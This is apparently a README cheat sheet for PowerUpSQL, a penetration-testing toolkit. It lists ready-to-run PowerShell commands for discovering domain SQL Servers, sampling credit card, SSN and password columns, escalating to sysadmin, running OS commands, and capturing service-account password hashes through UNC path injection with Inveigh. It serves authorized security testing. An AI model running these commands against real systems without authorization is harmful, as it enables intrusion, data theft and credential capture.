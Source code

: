 ## ![alt tag](https://github.com/NetSPI/PowerUpSQL/blob/master/images/powerupsql-large.png)
Below is a list of some of the most common PowerUpSQL functions used during pentests.

## Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain accounts used to run multiple SQL Servers | `Get-SQLInstanceDomain -Verbose | Where-Object {$_.DomainAccount -notlike "*$"} | Group-Object DomainAccount | Select Count, Name | Sort-Object Name -Descending`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`
|Get a list of domain SQL servers that can be logged into|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`

## Data Gathering Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Execute arbitrary query|`$Targets | Get-SQLQuery -Verbose Query "Select @@version"`
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10–Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`

## Privilege Escalation Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Audit for Issues| `Invoke-SQLAudit -Verbose -Instance SQLServer1`
|Escalate to Sysadmin | `Invoke-SQLPrivEsc -Verbose -Instance SQLServer1`
|Execute OS Commands | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10`
|UNC Path Injection |`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1` <br> `Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`

